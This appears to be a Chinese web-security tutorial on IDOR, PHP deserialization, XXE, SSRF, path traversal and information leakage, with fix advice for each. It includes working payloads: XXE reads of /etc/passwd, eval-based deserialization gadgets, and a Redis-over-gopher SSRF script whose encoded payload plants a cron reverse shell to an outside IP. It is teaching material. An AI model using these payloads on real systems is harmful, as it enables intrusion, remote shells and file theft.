我们登陆某个系统后，看到某些功能上获取信息的方式类似于上链接时，可以初步判断获取信息的方式为根据user_id来获对应的用户信息，如果参数为用户名，我们可以手机用户名字典来枚举信息，根据返回值判断是否存在问题。当然如果枚举较大，系统用户数量又不是很多的情况下，可以尝试注册新用户，利用新用户的用户名来测试是否可以获取到用户信息。

如果参数为一个固定的数字串时，遍历数字串即可，这种情况下是系统对每个注册用户进行了一个用户id的排序，在众多的开源CMS上都有使用，当然这个字符串也有可能是随机，如果是随机的，量不大的情况下可以采用遍历的形式获取，量较大可以利用burp的随机数爆破，或者同样自己注册账户来测试。


#### 基于功能对象ID的越权

举个例子：

```none
https://www.xxx.com/user1/userticket.php?user_order=100001
https://www.xxx.com/user1/userticket.php?user_order=49ba59ab
```

此问题大量存在于用户订单、购买、查询等功能的商家CMS上，例如以上地址，如果user_order是订单编号，那么我们可以尝试遍历订单地址来查询是否存在越权。如果编号并不是单纯的订单数字串，而是类似如上的编码字符串，相信自己的运气的话可以尝试某些编码的情况，例如BASE64、MD5。猜测不到，或者不能明显的看出来是如果做的处理，注册新账号重新下单，会是简单方便的选择。


#### 基于未授权访问的越权

举个例子：

```none
https://www.xxx.com/user1/user.php?user=user1@user.com
```

在一些系统上登陆用户后，可以看到类似如上的地址链接，可能你会觉得这个跟问题1类似，但是也有可能多一张问题情况，在非登陆的情况下仍然可以访问到详细信息。如果可以，则证明后端对身份的效验只是基于参数user，并没有效验用户的session是否已登陆。此问题曾发现于一个系统后端支付订单复核的功能中，问题可想而知。


#### 基于功能地址的越权

举个例子：

```none
https://www.xxx.com/user/getuserinfo.php
```

如上地址，正常情况下，只访问此后台地址时，一般会跳转到登陆地址，或者登陆后用来查看某个具体的功能，获取数据的情况根据访问的链接地址来，理论上此功能并不存在越权可能，因为没有我们可以修改的参数。但是对权限及功能的限制可能只局限于用户菜单的限制，根据常用链接，可以猜测是否存在以下地址：

```none
/getuserorder.php
/adduser.php
/deluser.php
/getalluser.php
/todetailpage.php
/ordercreate.php......
```

因为在绝大部分系统中，开发为了方便区别功能和页面，通常会利用对应的英文来命名文件，但这些文件并不是任意用户都可以访问到的，所以可以猜测访问地址是否英文的拼接来猜测路径。对于此问题的快捷测试是获取一个高权限账号，当然对于未授权测试来说，很难实现。


#### 基于接口身份的越权

```none
https://www.xxx.com/user/userinfo.php
post: 
{'userid':'10001','username':'name','userage':'18','usermobile':'18080808888'}
```

例如如上接口，修改用户信息，当我们点击某个系统的修改自身资料时，会发送一个类似的json数据包，其中userid对应我们自己的用户id，修改后，可以修改对应id的用户资料。修改方式类似问题1。区别在于一个页面可见，一个页面不直观可见，一个查询，一个修改。需要配合其他越权查询漏洞，或者账号来识别是否修改成功。	


### 0x03 如何修复

建议做一个过滤器，对权限进行全局校验（每次调用某个接口时，可先对权限进行校验）。大体流程是：第一步清洗URL地址，并提取Api接口名称；第二步从session中提取当前登录用户的userid；第三步提取当前用户的角色id；第四步判断当前用户对应的角色是否有权限访问当前Api接口（检查垂直越权）；最后判断当前登录用户是否对目标对象有操作权限（检查水平越权）。

推荐使用`JWT` 验证


## 反序列化漏洞


### 0x01 序列化相关基础知识

#### 0x01 01 序列化演示


**序列化就是把本来不能直接存储的数据转换成可存储的数据，并且不会丢掉数据格式**

序列化(Serialization)是将对象的状态信息转换为可以存储或传输的形式的过程。 在序列化期间，对象将其当前状态写入到临时或持久性存储区。 以后，可以通过从存储区中读取或反序列化对象的状态，重新创建该对象。 序列化使其他代码可以查看或修改，那些不序列化便无法访问的对象实例数据。

```php
<?php
class test{
	private $flag = 'Inactice';
	protected $test = 'test';
	public $test1 = "test1";

	public function set_flag($flag){
		$this->flag = $flag;
	}	

	public function get_flag($flag){
		return $this->flag;
	}

}

$object = new test();
$object->set_flag('Active');
$data = serialize($object);
echo $data;
?>
```

**那么这种将原本的数据通过某种手段进行“压缩”，并且按照一定的格式存储的过程就可以称之为"序列化"**

```
O:4:"test":3:{s:10:"testflag";s:6:"Active";s:7:"*test";s:4:"test";s:5:"test1";s:5:"test1";}
对象类型:长度:"类名":类中变量的个数:{类型:长度:"值";类型:长度:"值";......}
```


```php
a - array                  b - boolean  
d - double                 i - integer
o - common object          r - reference
s - string                 C - custom object
O - class                  N - null
R - pointer reference      U - unicode string

```


#### 0x01 02 php魔法方法


**PHP 将所有以 __（两个下划线）开头的类方法保留为魔术方法**

这里就不得不介绍几个我们必须知道的魔法方法了

```php
__construct   当一个对象创建时被调用，
__destruct   当一个对象销毁时被调用，
__toString   当一个对象被当作一个字符串被调用。
__wakeup()   使用unserialize时触发
__sleep()    使用serialize时触发
__call()    在对象上下文中调用不可访问的方法时触发
__callStatic()    在静态上下文中调用不可访问的方法时触发
__get()    用于从不可访问的属性读取数据
__set()    用于将数据写入不可访问的属性
__isset()    在不可访问的属性上调用isset()或empty()触发
__unset()     在不可访问的属性上使用unset()时触发
__invoke()   当脚本尝试将对象调用为函数时触发
```

其中我想特别说明一下第四点：

这个 __toString 触发的条件比较多，也因为这个原因容易被忽略，常见的触发条件有下面几种

> (1)echo (`$obj`) / print(`$obj`) 打印时会触发
>
> (2)反序列化对象与字符串连接时
>
> (3)反序列化对象参与格式化字符串时
>
> (4)反序列化对象与字符串进行==比较时（PHP进行==比较的时候会转换参数类型）
>
> (5)反序列化对象参与格式化SQL语句，绑定参数时
>
> (6)反序列化对象在经过php字符串函数，如 strlen()、addslashes()时
>
> (7)在in_array()方法中，第一个参数是反序列化对象，第二个参数的数组中有**toString返回的字符串的时候**toString会被调用

```php
<?php
class test{
 public $varr1="abc";
 public $varr2="123";
 public function echoP(){
  echo $this->varr1."<br>";
 }

 public function __construct(){
  echo "__construct<br>";
 }

 public function __destruct(){
  echo "__destruct<br>";
 }

 public function __toString(){
  return "__toString<br>";
 }

 public function __sleep(){
  echo "__sleep<br>";
  return array('varr1','varr2');
 }

 public function __wakeup(){
  echo "__wakeup<br>";
 }
 
}

$obj = new test();  //实例化对象，调用__construct()方法，输出__construct
// $obj->echoP();   //调用echoP()方法，输出"abc"
// echo $obj;    //obj对象被当做字符串输出，调用__toString()方法，输出__toString
$s =serialize($obj);  //obj对象被序列化，调用__sleep()方法，输出__sleep
echo unserialize($s);  //$s首先会被反序列化，会调用__wake()方法，被反序列化出来的对象又被当做字符串，就会调用_toString()方法。
// 脚本结束又会调用__destruct()方法，输出__destruct
?>
```


### 0x02 反序列化漏洞利用

反序列化漏洞的成因在于代码中的 unserialize() 接收的参数可控，从上面的例子看，这个函数的参数是一个序列化的对象，而序列化的对象只含有对象的属性，那我们就要利用对对象属性的篡改实现最终的攻击。

#### 01对象注入

**当用户的请求在传给反序列化函数`unserialize()`之前没有被正确的过滤时就会产生漏洞。因为PHP允许对象序列化，攻击者就可以提交特定的序列化的字符串给一个具有该漏洞的`unserialize`函数，最终导致一个在该应用范围内的任意PHP对象注入。**

**对象漏洞**出现得满足两个前提：

> 一、`unserialize`的参数可控。
> 二、 代码里有定义一个含有魔术方法的类，并且该方法里出现一些使用类成员变量作为参数的存在安全问题的函数。


```php
<?php
class A{
    var $test = "demo";
    function __destruct(){
            echo $this->test;
    }
}
$a = $_GET['test'];
$a_unser = unserialize($a);
?>
```

比如这个列子，直接是用户生成的内容传递给`unserialize()函数`，那就可以构造这样的语句

```
?test=O:1:"A":1:{s:4:"test";s:5:"lemon";}
```


在脚本运行结束后便会调用`_destruct`函数，同时会覆盖test变量输出lemon。
[](http://img-blog.csdnimg.cn/20190815172019974.png)


发现这个漏洞，便可以利用这个漏洞点控制输入变量，拼接成一个序列化对象。
再看下面这个例子：

```
<?php
class A{
    var $test = "demo";
    function __destruct(){
        @eval($this->test);//_destruct()函数中调用eval执行序列化对象中的语句
    }
}
$class = $_GET['class'];
$test_unser = unserialize($class); // 反序列化同时触发_destruct函数
?>
```


其实仔细观察就会发现，其实我们手动构造序列化对象就是为了`unserialize()函数`能够触发`__destruct()`函数，然后执行在`__destruct()`函数里恶意的语句。

所以我们利用这个漏洞点便可以获取web shell了




#### 02其他Magic function的利用

但如果一次unserialize()中并不会直接调用的魔术函数，比如前面提到的__construct()，是不是就没有利用价值呢？非也。类似于PWN中的ROP，有时候反序列化一个对象时，由它调用的__wakeup()中又去调用了其他的对象，由此可以溯源而上，利用一次次的“fuzz”找到漏洞点

```
<?php
class test{
	function __construct($test){
		$fp = fopen("shell.php","w") ;
		fwrite($fp,$test);
		fclose($fp);
	}
}
class test2{
	var $test = '123';
	function __wakeup(){
		$obj = new test($this->test);
	}
}

$class = $_GET['test'];
$class5_unser = unserialize($class);

```


#### 03 普通方法的使用

前面谈到的利用都是基于“自动调用”的magic function。但当漏洞/危险代码存在类的普通方法中，就不能指望通过“自动调用”来达到目的了。这时的利用方法如下，寻找相同的函数名，把敏感函数和类联系在一起。

```php
<?php
class fengxuan {
    var $test;
    function __construct() {
        $this->test = new class2();
    }
    function __destruct() {
        $this->test->action();
    }
}
class class2 {
    var $test2;
    function action() {
        eval($this->test2);
    }
}
$class6 = new fengxuan();
unserialize($_GET['test']);

?>
```


本意上，new一个新的fengxuan对象后，调用__construct()，其中又new了class2对象。在结束后会调用__destruct()，其中会调用action()，从而执行代码。


#### 04反序列化高级攻击

**phar:// 如何扩展反序列化的攻击面的**
来自2017 年的 hitcon Orange 的一道 0day 题

原来 phar 文件包在 生成时会以序列化的形式存储用户自定义的 meta-data ，配合 phar:// 我们就能在文件系统函数 file_exists() is_dir() 等参数可控的情况下实现自动的反序列化操作，于是我们就能通过构造精心设计的 phar 包在没有 unserailize() 的情况下实现反序列化攻击，从而将 PHP 反序列化漏洞的触发条件大大拓宽了，降低了我们 PHP 反序列化的攻击起点。


**通过以上的例子总结一下寻找 PHP 反序列化漏洞的方法或者说流程**

(1)  寻找 unserialize() 函数的参数是否有我们的可控点
(2)  寻找我们的反序列化的目标，重点寻找 存在 **wakeup() 或** destruct() 魔法函数的类
(3)  **一层一层**地研究该类在魔法方法中使用的属性和属性调用的方法，看看是否有可控的属性能实现在当前调用的过程中触发的
(4)  找到我们要控制的属性了以后我们就将要用到的代码部分复制下来，然后构造序列化，发起攻击


### 0x03 防御措施

1.严格的把控 unserailize() 函数的参数，不要给攻击者任何输入的可能
2.在文件系统函数的参数可控时，对参数进行严格的过滤。
3.严格检查上传文件的内容，而不是只检查文件头。
4.在条件允许的情况下禁用可执行系统命令、代码的危险函数。


### 0x04 参考

https://www.k0rz3n.com/2018/11/19/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E6%B7%B1%E5%85%A5%E7%90%86%E8%A7%A3PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/

https://chybeta.github.io/2017/06/17/%E6%B5%85%E8%B0%88php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/


## XXE漏洞


### 0x01 基础知识

XML是一种非常流行的标记语言，在1990年代后期首次标准化，并被无数的软件项目所采用。它用于配置文件，文档格式（如OOXML，ODF，PDF，RSS，...），图像格式（SVG，EXIF标题）和网络协议（WebDAV，CalDAV，XMLRPC，SOAP，XMPP，SAML， XACML，...），他应用的如此的普遍以至于他出现的任何问题都会带来灾难性的结果。

```xml
<?xml version="1.0"?>
<!DOCTYPE catalog [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<catalog>
   <core id="test101">
      <author>John, Doe</author>
      <title>I love XML</title>
      <category>Computers</category>
      <price>9.99</price>
      <date>2018-10-01</date>
      <description>&xxe;</description>
   </core>
</catalog>
```


XML 文档有自己的一个格式规范，这个格式规范是由一个叫做 DTD（document type definition） 的东西控制的，DTD全称是The document type definition，即是文档类型定义，可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。他就是长得下面这个样子

DTD,用来XML文档定义语义约束

```xml-dtd
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE message [
<!ELEMENT message (receiver ,sender ,header ,msg)>
<!ELEMENT receiver (#PCDATA)>
<!ELEMENT sender (#PCDATA)>
<!ELEMENT header (#PCDATA)>
<!ELEMENT msg (#PCDATA)>
```

#### 实体类别介绍

参数实体用%实体名称申明，引用时也用%实体名称;其余实体直接用实体名称申明，引用时用&实体名称。
参数实体只能在DTD中申明，DTD中引用；其余实体只能在DTD中申明，可在xml文档中引用。

#### 内部实体：

```
<!DOCTYPE 实体名称 "实体的值">
```


#### 外部实体

外部实体即在DTD中使用

```
<!DOCTYPE 根元素 SYSTEM "文件名">
或者
<!DOCTYPE 根元素 PUBLIC "public_ID" "文件名">
```


### 0x02 漏洞讲解

XXE(XML External Entity Injection) 全称为 XML 外部实体注入，从名字就能看出来，这是一个注入漏洞，注入的是什么？XML外部实体，固然，其实我这里废话只是想强调我们的利用点是 **外部实体** ，也是提醒读者将注意力集中于外部实体中，而不要被 XML 中其他的一些名字相似的东西扰乱了思维(**盯好外部实体就行了**)，如果能注入 外部实体并且成功解析的话，这就会大大拓宽我们 XML 注入的攻击面

使用SYSTEM的外部DTD实体：

```bash
<!ENTITY  entity-name SYSTEM "URL/URI" >
```

使用Public的外部DTD实体： (这个在我们的攻击中也可以起到和 SYSTEM 一样的作用)

```php
<!ENTITY  YPE entity-name PUBLIC "public_ID" "URI"> entity-name;
```


实例演示：参数实体+外部实体

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
    <!ENTITY name "fengxuan">]>
<foo>
        <value>&name;</value> 
</foo>
```


**xxe漏洞发生在应用程序解析XML输入时，没有禁止外部的实体的加载，导致攻击者可以构造一个恶意的XML**


### 0x03 漏洞利用

#### php漏洞demo

```
<?php

    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;

?>
```





#### payload

- file协议读取文件

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY fengxuan SYSTEM "file:///etc/passwd"> ]> 
<creds>&fengxuan;</creds>
```


- 探测内网

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY fengxuan SYSTEM "php://filter/convert.base64-encode/resource=http://localhost:8111"> ]> 
<creds>&fengxuan;</creds>
```

- SSRF

```xml-dtd
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://localhost:8111/">
%remote;%int;%send;
]>
```


#### Java漏洞demo

```java
import java.io.File;

import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;

import org.w3c.dom.Attr;
import org.w3c.dom.Comment;
import org.w3c.dom.Document;
import org.w3c.dom.Element;
import org.w3c.dom.NamedNodeMap;
import org.w3c.dom.Node;
import org.w3c.dom.NodeList;

/**
 * 使用递归解析给定的任意一个xml文档并且将其内容输出到命令行上
 * @author zhanglong
 *
 */
public class xml_test
{
    public static void main(String[] args) throws Exception
    {
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        DocumentBuilder db = dbf.newDocumentBuilder();

        Document doc = db.parse(new File("student.xml"));
        //获得根元素结点
        Element root = doc.getDocumentElement();

        parseElement(root);
    }

    private static void parseElement(Element element)
    {
        String tagName = element.getNodeName();

        NodeList children = element.getChildNodes();

        System.out.print("<" + tagName);

        //element元素的所有属性所构成的NamedNodeMap对象，需要对其进行判断
        NamedNodeMap map = element.getAttributes();

        //如果该元素存在属性
        if(null != map)
        {
            for(int i = 0; i < map.getLength(); i++)
            {
                //获得该元素的每一个属性
                Attr attr = (Attr)map.item(i);

                String attrName = attr.getName();
                String attrValue = attr.getValue();

                System.out.print(" " + attrName + "=\"" + attrValue + "\"");
            }
        }

        System.out.print(">");

        for(int i = 0; i < children.getLength(); i++)
        {
            Node node = children.item(i);
            //获得结点的类型
            short nodeType = node.getNodeType();

            if(nodeType == Node.ELEMENT_NODE)
            {
                //是元素，继续递归
                parseElement((Element)node);
            }
            else if(nodeType == Node.TEXT_NODE)
            {
                //递归出口
                System.out.print(node.getNodeValue());
            }
            else if(nodeType == Node.COMMENT_NODE)
            {
                System.out.print("<!--");

                Comment comment = (Comment)node;

                //注释内容
                String data = comment.getData();

                System.out.print(data);

                System.out.print("-->");
            }
        }

        System.out.print("</" + tagName + ">");
    }
}
```


#### 支持的协议


### 0x04漏洞修复


#### xxe漏洞修复与防御

##### 使用开发语言提供的禁用外部实体的方法

PHP：

```
libxml_disable_entity_loader(true);
```


JAVA:

```
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
```


Python：

```
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```


##### 过滤用户提交的XML数据

过滤关键词：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC。


### 0x05参考

https://xz.aliyun.com/t/3357#toc-11


## SSRF(Server-Side Request Forgery:服务器端请求伪造)

### 0x01 漏洞简介

Ssrf是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。

Example：

```
GET /index.php?url=http://google.com/ HTTP/1.1
Host: example.com
```

在这里，[http://example.com](http://example.com/) 从它的服务器获取 [http://google.com](http://google.com/)


#### 什么地方最容易出现SSRF

- 云服务器商。(各种网站数据库操作) 

- 有远程图片加载的地方。(编辑器之类的有远程图片加载啊) 

- 网站采集、网页抓取的地方。(很多网站会有新闻采集输入url然后一键采集) 

- 头像的地方。(某易就喜欢远程加载头像，例如:http://www.xxxx.com/image?url=http://www.image.com/1.jpg) 最后一个一切要你输入网址的地方和可以输入ip的地方，都是ssrf的天下。


#### **SSRF可以做什么**

- 对服务器所在的内网进行端口扫描，获取一些服务的banner信息等
-  攻击运行在内网或者本地的应用程序 
- 对内网WEB应用进行指纹识别，通过访问默认文件实现（Readme等文件） 
- 攻击内外网的WEB应用，主要是GET就可以实现的攻击（比如Struts2，SQL注入等） 
- 下载内网资源（利用file协议读取本地文件等） 
- 利用Redis未授权访问，HTTP CRLF注入达到getshell 
- wooyun峰会猪猪侠的ppt 进行跳板 
- 无视cdn


### 0x02 漏洞讲解

#### 0x0201 函数

`file_get_contents()`、`fsockopen()`、`curl_exec()`、`fopen()`、`readfile()`等函数使用不当会造成SSRF漏洞

1. `file_get_contents()`

```php
<?php
$url = $_GET['url'];;
echo file_get_contents($url);
?>
```

> `file_get_content`函数从用户指定的url获取内容，并展示给用户。file_put_content函数把一个字符串写入文件中。


2. `fsockopen()`

```php
function GetFile($host,$port,$link) { 
    $fp = fsockopen($host, intval($port), $errno, $errstr, 30);   
    if (!$fp) { 
        echo "$errstr (error number $errno) \n"; 
    } else { 
        $out = "GET $link HTTP/1.1\r\n"; 
        $out .= "Host: $host\r\n"; 
        $out .= "Connection: Close\r\n\r\n"; 
        $out .= "\r\n"; 
        fwrite($fp, $out); 
        $contents=''; 
        while (!feof($fp)) { 
            $contents.= fgets($fp, 1024); 
        } 
        fclose($fp); 
        return $contents; 
    } 
}
?>
```

> `fsockopen`函数实现对用户指定url数据的获取，该函数使用socket（端口）跟服务器建立tcp连接，传输数据。变量host为主机名，port为端口，errstr表示错误信息将以字符串的信息返回，30为时限

3.  `curl_exec`

```php
if (isset($_GET['url'])){
    $link = $_GET['url'];
    $curlobj = curl_init();// 创建新的 cURL 资源
    curl_setopt($curlobj, CURLOPT_POST, 0);
    curl_setopt($curlobj,CURLOPT_URL,$link);
    curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1);// 设置 URL 和相应的选项
    $result=curl_exec($curlobj);// 抓取 URL 并把它传递给浏览器
    curl_close($curlobj);// 关闭 cURL 资源，并且释放系统资源

    $filename = './curled/'.rand().'.txt';
    file_put_contents($filename, $result); 
    echo $result;
}
?>
```

> `curl_exec`函数用于执行指定的cURL会话


#### 0x0202 协议

（1）`http/s`：探测内网主机存活
（2）`file`： 在有回显的情况下，利用 file 协议可以读取任意内容
（3）`dict`：泄露安装软件版本信息，查看端口，操作内网redis服务等
（4）`gopher`：gopher支持发出GET、POST请求：可以先截获get请求包和post请求包，再构造成符合gopher协议的请求。gopher协议是ssrf利用中一个最强大的协议(俗称万能协议)。可用于反弹shell


### 0x03 漏洞利用

#### http协议探测主机存活

`curl -vvv 'http://191.168.0.1:8080'`


#### file协议读取文件

`curl -vvv 'file:///etc/passwd'`


#### 使用dict协议探测端口信息

```
curl -vvv 'dict://127.0.0.1:6379/info'
```


#### 使用gopher协议攻击redis，getshell

`curl -v "gopher://127.0.0.1:6666/_info"`

**利用redis把payload保存到linux计划任务，然后1分钟之后执行命令**


```shell
set 1 "\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.0.214/2333 0>&1\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```


#### **使用gopher攻击内网redis获取权限**

改成gopher协议格式脚本

```python
import urllib
protocol="gopher://"
ip="127.0.0.1"
port="6379"
shell="\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
filename="shell.php"
path="/Users/zhoumengying/code/study/ssrf"
passwd=""
cmd=["flushall",
     "set 1 {}".format(shell.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
    
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.quote(redis_format(x))
    print(payload)
```

生成的payload：

```shell
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2459%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20/dev/tcp/192.168.0.214/2333%200%3E%261%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A
```


最后补充一下，可进行利用的cron有如下几个地方：

- /etc/crontab 这个是肯定的
- /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
- /var/spool/cron/root centos系统下root用户的cron文件
- /var/spool/cron/crontabs/root debian系统下root用户的cron文件


### 0x04漏洞防御

1、禁用不需要的协议(如：`file:///`、`gopher://`,`dict://`等)。仅仅允许http和https请求
2、统一错误信息，防止根据错误信息判断端口状态
3、禁止302跳转，或每次跳转，都检查新的Host是否是内网IP，直到抵达最后的网址
4、设置URL白名单或者限制内网IP


### 0x05 参考

https://xz.aliyun.com/t/7405?accounttraceid=88b8ebbee5bb4ee6b62c004148f3f8e7ceje

https://www.anquanke.com/post/id/197431


## 路径遍历

### 0x01 漏洞概述

路径遍历攻击（也称作目录遍历）的目标是访问web根目录外存储的文件和目录。通过操纵使用“点-斜线（../）”序列及其变体引用文件的变量或使用绝对文件路径，可以访问存储在文件系统上的任意文件和目录，包括应用程序源代码或配置和关键的系统文件。应该注意的是，对文件的访问受到系统操作访问控制的限制（例如在Microsoft Windows操作系统上锁定或使用中的文件）。这种攻击也被称为“点点斜线”，“目录遍历”，“目录爬升”和“回溯”。


#### OS特性

*Unix类 OS*:

```
根目录: "/"
目录分割符: "/"
```

*Windows OS*:

```
根目录: "<驱动器盘符>:\"
目录分割符: "\" or "/"
```

*经典 Mac OS*:

```
根目录: "<驱动器盘符>:"
目录分割符: ":"
```


### 0x02 漏洞特性


接下来的示例展现了应用是如何处理使用的资源的

```
http://example.com/getUserProfile.jsp?item=../../../../etc/
```

又比如这个Cookie的例子：

```
Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```


在这些示例中，可以插入恶意字符串作为变量参数来访问位于Web发布目录之外的文件。

```
  http://some_site.com.br/get-files?file=../../../../some dir/some file 
  http://some_site.com.br/../../../../some dir/some file 
```

接下来的URL展显了 *NIX 密码文件泄露

```
http://some_site.com.br/../../../../etc/shadow  
http://some_site.com.br/get-files?file=/etc/passwd 
```

注意：在Windows系统中，攻击者只能访问Web根目录位于的分区中，而在Linux中，他可以访问整个磁盘。


#### demo

```php
<?php
$dir_path=$_REQUEST['path'];
$page=scandir($dir_path);
var_dump($page);
?>
```


```php
<?php
$template = "";
$template = $_COOKIE['TEMPLATE'];

include ( $template );
?>
```

Site: xx.com intext:Index OF


### 0x03 漏洞防御绕过

#### 目录限定绕过

有些Web应用程序是通过限定目录权限来分离的。可以使用一些特殊的符号`~`来绕过。比如提交这样的`xxx.php?page=~/../boot`。就可以直接跳转到硬盘目录下。


#### 绕过文件后缀过滤

一些Web应用程序在读取文件前，会对提交的文件后缀进行检测，攻击者可以在文件名后放一个空字节的编码，来绕过这样的文件类型的检查。
比如：`../../../../boot.ini%00.jpg`，Web应用程序使用的Api会允许字符串中包含空字符，当实际获取文件名时，则由系统的Api会直接截短，而解析为`../../../../boot.ini`。
在类Unix的系统中也可以使用Url编码的换行符，例如：`../../../etc/passwd%0a.jpg`如果文件系统在获取含有换行符的文件名，会截短为文件名。也可以尝试%20，例如: `../../../index.php%20`


#### 绕过来路验证

Http Referer : HTTP Referer是header的一部分，当浏览器向web服务器发送请求的时候，一般会带上Referer，告诉服务器我是从哪个页面链接过来的
在一些Web应用程序中，会有对提交参数的来路进行判断的方法，而绕过的方法可以尝试通过在网站留言或者交互的地方提交Url再点击或者直接修改Http Referer即可，这主要是原因Http Referer是由客户端浏览器发送的，服务器是无法控制的，而将此变量当作一个值得信任源是错误的。


### 0x04 漏洞防御

1、系统开发阶段的防御

在系统开发阶段应充分考虑系统的安全性，对目录遍历漏洞来说，需对用户提交的内容进行严格的过滤，这里主要指过滤目录跳转符，字符截断符，dir命令等。

2、系统运行阶段的防御

nginx配置`open_basedir=/home/wwwroot/blog.evalshell.com:/tmp/:/proc/`


## 敏感信息泄漏

### 0x01 漏洞简介

敏感数据包括但不限于：口令、密钥、证书、会话标识、License、隐私数据(如短消息的内容)、授权凭据、个人数据(如姓名、住址、电话等)等，在程序文件、配置文件、日志文件、备份文件及数据库中都有可能包含敏感数据。主要分为由版本管理软件导致的泄露, 文件包含导致的泄露和配置错误导致的泄露.


### 0x02 漏洞原理

由于后台人员的疏忽或者不当的设计，导致不应该被前端用户看到的数据被轻易的访问到。 比如：

- 通过访问url下的目录，可以直接列出目录下的文件列表;
- 输入错误的url参数后报错信息里面包含操作系统、中间件、开发语言的版本或其他信息;
- 前端的源码（html,css,js）里面包含了敏感信息，比如后台登录地址、内网接口信息、甚至账号密码等;

**由于网站开发人员或者运维人员疏忽，存放敏感信息的文件被泄露或由于网站运行出错导致敏感信息泄露。**


### 0x03 漏洞利用

#### 漏洞分类

- phpinfo信息泄漏  (演示)

  ```
  /test.php
  /p.php
  /phpinfo.php
  /info.php
  ```

- 编辑器备份文件

  ```
  .asdad.swp
  .asdasd.bak
  *.old
  ```

- 日志文件

  ```
  *.log
  /data/mysql_error_trace.inc
  ```

  

- 版本管理工具文件信息泄露

  ```
  .git/
  .git/config
  .svn/entriesp
  CVS/Entriesp
  .gitignore
  ```

  `https://github.com/lijiejie/GitHack` git源码恢复工具 (演示)

  

- 关键功能性地址泄露

  ```
  /admin/
  /manage/
  /login.php
  /manage.php
  /phpMyAdmin
  /phpmyadmin
  ```

- 网站源码备份文件

  ```
  www.rar
  {sitename}.tar.gz
  web.zip/tar.gz/rar
  
  ```

- 网站前端HTML源代码信息泄漏

- Http Header返回头  (演示)

  ```
  Server
  Cookie
  中间件的类型、版本
  ```

  

- 报错信息

  - mysql错误
  - php错误 (暴露出网站绝对路径)
  - 暴露cms版本

- 源码托管平台  (演示)
  源码托管，是公共项目的导致敏感信息泄漏

  - github
  - gitee

- 其他

  ```
  robots.txt
  ```

  

#### 相关利用工具

这种类型的漏洞是可以借助基于目录扫描的工具实现自动化探测的

`https://github.com/ring04h/weakfilescan`

`https://github.com/lijiejie/BBScan`

`whatweb`

御剑扫描器

Skipfish


### 0x04漏洞防御

1、禁止在代码中存储敏感数据：禁止在代码中存储如数据库连接字符串、口令和密钥之类的敏感数据，这样容易导致泄密。用于加密密钥的密钥可以硬编码在代码中。

2、禁止密钥或帐号的口令以明文形式存储在数据库或者文件中：密钥或帐号的口令必须经过加密存储。例外情况，如果Web容器的配置文件中只能以明文方式配置连接数据库的用户名和口令，那么就不用强制遵循该规则，将该配置文件的属性改为只有属主可读写。

3、禁止在cookie中以明文形式存储敏感数据：cookie信息容易被窃取，尽量不要在cookie中存储敏感数据；如果条件限制必须使用cookie存储敏感信息时，必须先对敏感信息加密再存储到cookie。

4、禁止在隐藏域中存放明文形式的敏感数据。

5、禁止用自己开发的加密算法，必须使用公开、安全的标准加密算法。

6、禁止在日志中记录明文的敏感数据：禁止在日志中记录明文的敏感数据(如口令、会话标识jsessionid等)，防止敏感信息泄漏。

7、禁止带有敏感数据的Web页面缓存：带有敏感数据的Web页面都应该禁止缓存，以防止敏感信息泄漏或通过代理服务器上网的用户数据互窜问题。

8、上线之前检查网站目录没有其他的备份文件

9、配置Web容器不能访问.开头的文件


